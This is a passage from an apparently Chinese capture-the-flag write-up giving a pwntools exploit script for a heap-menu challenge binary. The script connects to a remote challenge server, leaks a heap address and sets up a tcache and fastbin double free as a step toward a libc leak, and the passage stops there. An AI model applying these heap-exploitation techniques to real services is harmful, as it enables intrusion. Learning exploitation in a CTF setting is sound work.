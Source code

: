 ##### &emsp;&emsp;&emsp;完整exp
```python
from pwn import *
from os import system
def debug(cmd=''):
    system("gdb --pi={}".format(io.pid))
    pause()
se      = lambda data           : io.send(data)
sl      = lambda data           : io.sendline(data)
sa      = lambda endstr, data   : io.sendafter(endstr, data)
sla     = lambda endstr, data   : io.sendlineafter(endstr, data)
rc      = lambda num=4096       : io.recv(num)
rl      = lambda                : io.recvline()
ru      = lambda endstr         : io.recvuntil(endstr)
info    = lambda tag, addr         : io.info(tag + ': {:#x}'.format(addr))
uu32    = lambda data               :u32(data.ljust(4, b'\0'))
uu64    = lambda data               :u64(data.ljust(8, b'\0'))

context.log_level = 'debug'
# io = process("./pwn")
io = remote("152.136.11.155",30871)
elf = ELF("./pwn")
libc = ELF("./libc-2.31.so")

def add(size, content):
    sla(b'0.Exit.\n>', b'1')
    sla(b'Size?\n>', str(size))
    if context != b'':  
        sa(b'Content?\n>', content)
    sleep(0.01)

def show(idx): # from 1 to ...
    sla(b'0.Exit.\n>', b'2')
    sla(b'ord?\n>', str(idx))
    sleep(0.05)

def free(idx):
    sla(b'0.Exit.\n>', b'3')
    sla(b'ord?\n>', str(idx))
    sleep(0.05)

for i in range(9):
    add(0x10, b'a') # 1~9
for i in range(1,8):
    free(i)
free(8)
add(0x10, b'a') # 10
show(10)
ru(b'10:')
heap_base = uu64(rc(4)) - 0x361
info("heap_base", heap_base)
offset1 = 10

# leak libc
for i in range(12):
    add(0x10, b'd') # 1~11
for i in range(1 + offset1, 8 + offset1):
    free(i) # fill tcache

free(8 + offset1)
free(9 + offset1)
free(10 + offset1)
free(8 + offset1) # fastbin 0x20: 8->10->9->8
```